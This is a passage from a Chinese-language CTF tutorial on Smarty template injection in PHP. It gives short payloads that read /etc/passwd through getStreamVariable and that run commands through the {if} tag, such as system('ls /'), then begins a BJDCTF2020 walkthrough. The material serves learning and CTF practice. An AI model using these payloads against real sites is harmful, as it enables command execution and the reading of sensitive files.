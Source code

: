 方法概述：`getStreamVariable` 方法的主要功能是从给定的文件流中读取内容，并将其作为字符串返回。如果文件流无法打开或文件不存在，方法将根据配置决定是否抛出异常或返回 `null`

利用这个可以构造读取文件的Payload：

```php
{self::getStreamVariable("file:///etc/passwd")}
```

> ⚠️：**在3.1.30以上的Smarty版本中：**
>
> *官方已经移除了这个方法，所以说不能执行成功*



#### {if}标签

基本语法：

```php
{if $condition}
    {# 满足条件时执行的内容 #}
{elseif $another_condition}
    {# 满足另一个条件时执行的内容 #}
{else}
    {# 以上条件都不满足时执行的内容 #}
{/if}

```

需要注意的是： ----- **每个{if}必须有一个配对的{/if}**

**全部的PHP条件表达式和函数都可以在if内使用**

所以利用这个标签我们就可以进行模板注入

```php
{if phpinfo()}{/if}
{if system('ls /')}{/if}
{if cat /flag}{/if}
```



### 例子

#### [BJDCTF2020]The mystery of ip

----

> 基于xff的模板注入
>
> 这个是php的smarty注入----可以通过{$smarty.version}查到版本

<img src="https://gitee.com/bx33661/image/raw/master/path/image-20241011173937368.png" style="zoom:50%;" />

抓包测试：

![2af3ad8b9abd9f3c8d2c2365664a4c4](https://gitee.com/bx33661/image/raw/master/path/2af3ad8b9abd9f3c8d2c2365664a4c4.png)
